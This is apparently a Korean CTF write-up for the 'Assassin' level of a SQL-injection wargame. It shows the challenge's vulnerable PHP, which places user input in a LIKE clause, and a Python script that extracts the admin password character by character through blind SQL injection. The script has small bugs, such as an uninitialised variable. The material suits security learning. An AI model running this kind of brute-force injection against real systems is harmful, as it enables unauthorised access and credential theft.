 # Level 15 - Assassin

## 문제

![문제](screenshot/L15_Assassin_prob.PNG)

## 문제 의도

- php 소스를 읽을 줄 아는가?
- Blind-SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~");
  // GET으로 받은 pw 값에 Single Quote가 들어갔을 때 필터링한다.
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";
  // GET으로 받은 pw 값을 LIKE 문의 인자로 넣는다.
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("assassin");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

LIKE는 WHERE 문에서 특정 패턴에 맞는 레코드를 뽑아내기 위한 연산자이다. 전 단계에서 Blind SQLi를 수행할때 많이 썼었는데 이 문제에선 아예 GET으로 받은 pw를 LIKE 문에 넣어버리므로 pw 값을 바꿔가며 admin의 pw 값을 알아내면 될 것.. 같았지만 예상치 못하게 이상한 곳에서 많이 헷갈린것 같다.

```python
# Based on infreljs's code

import urllib.request

for pw_length in range(1, 9):
    for pw in range(48, 123):
        candidate = password + chr(pw)
        url1 = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php"
        url2 = "?pw=" + candidate + "%"
        res = urllib.request.Request(url1+url2)
        res.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:50.0) Gecko/20100101 Firefox/50.0")
        res.add_header(
            "Cookie", "PHPSESSID=?????????????????????????"
        )
        re = urllib.request.urlopen(res).read()

        if str(re).find("<h2>Hello admin</h2>") != -1:
            password = password + chr(pw)
            print(password)
            break
print("PW = ", password)
```

그동안 LIKE 문으로 Blind-SQLi를 수행하면서 딱히 예외 상황같은게 없어서 뭘 안했는데, 이 문제에서 살짝 막혔다. 그동안 각 문제의 DB에는 사용자가 Guest와 Admin 밖에 없었는데 두 계정의 pw가 같았던 적은 없었던 것 같다. (있었는데 내가 못알아 차린 걸수도...) 그런데 이 문제를 풀고 나니 헤맸던 이유가 바로 Guest와 Admin의 계정 pw가 앞 2자리 정도 겹쳤기 때문이다. 만약 지금까지 써오던 코드를 사용하면 Admin의 pw와 패턴이 맞는데도 `Hello guest`라고 뜨므로 아마 정상적으로 pw를 가져오지 못했을 것이다. 그래서 `<h2>Hello`를 찾아서 guest고 admin이고 다 받았더니 admin의 pw를 추출할 수 있었다.

### 왜그럴까요

... 그건 해결되는대로 다시 올리겠습니당ㅎ

![solve](screenshot/L15_Assassin_clear.PNG)